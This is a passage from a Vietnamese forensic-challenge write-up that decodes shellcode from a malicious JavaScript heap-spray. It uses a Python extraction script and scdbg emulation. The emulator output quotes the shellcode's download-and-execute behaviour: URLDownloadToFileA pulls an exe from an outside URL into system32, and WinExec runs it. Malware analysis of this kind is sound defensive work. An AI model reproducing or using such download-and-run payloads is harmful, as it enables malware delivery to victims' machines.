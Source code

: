Sau đó nếu xảy ra các lỗi như là overflow,.... thì có khả năng cao sẽ rơi vào một vùng trong nopsled và cuối cùng là trượt đến shellcode độc hại

Mục đích chính của câu hỏi là tìm đường dẫn của file exe được drop trên máy nạn nhân, lệnh này sẽ nằm ở đâu đó trong các đoạn shellcode trong script JS trên, ta chỉ cần tạo một script để lấy chúng ra, decode thành raw byte rồi đưa vào một file sau đó dùng các trình debug shellcode như `scdbg.exe` để đọc

```py
import re
import struct

def extract_shellcode(js_file_path, output_bin_path):
    # Read JavaScript file
    with open(js_file_path, 'r', encoding='utf-8') as f:
        js_content = f.read()

    # Find all %uXXXX patterns
    shellcode_matches = re.findall(r'%u([0-9a-fA-F]{4})', js_content)

    if not shellcode_matches:
        print("No shellcode patterns found.")
        return

    # Convert each %uXXXX to bytes in little-endian format
    shellcode_bytes = b''.join(struct.pack('<H', int(code, 16)) for code in shellcode_matches)

    # Save to .bin file
    with open(output_bin_path, 'wb') as bin_file:
        bin_file.write(shellcode_bytes)

    print(f"Shellcode extracted and saved to {output_bin_path}")

# Example usage
extract_shellcode('decoded_payload2.js', 'shellcode.bin')
```

Sau đó chạy `scdbg.exe` trên file `shellcode.bin` để phân tích

```bash
$ ./scdbg.exe -f shellcode.bin
Loaded 6d4 bytes from file shellcode.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

401104  GetProcAddress(GetSystemDirectoryA)
401104  GetProcAddress(WinExec)
401104  GetProcAddress(ExitThread)
401104  GetProcAddress(LoadLibraryA)
4010af  LoadLibraryA(urlmon)
401104  GetProcAddress(URLDownloadToFileA)
4010d3  GetSystemDirectoryA( c:\windows\system32\ )
4010ec  URLDownloadToFileA(http://blog.honeynet.org.my/forensic_challenge/malware1.exe, c:\WINDOWS\system32\a.exe)
4010f3  WinExec(c:\WINDOWS\system32\a.exe)
4010f7  ExitThread(32)

Stepcount 7787
```

`c:\WINDOWS\system32\a.exe`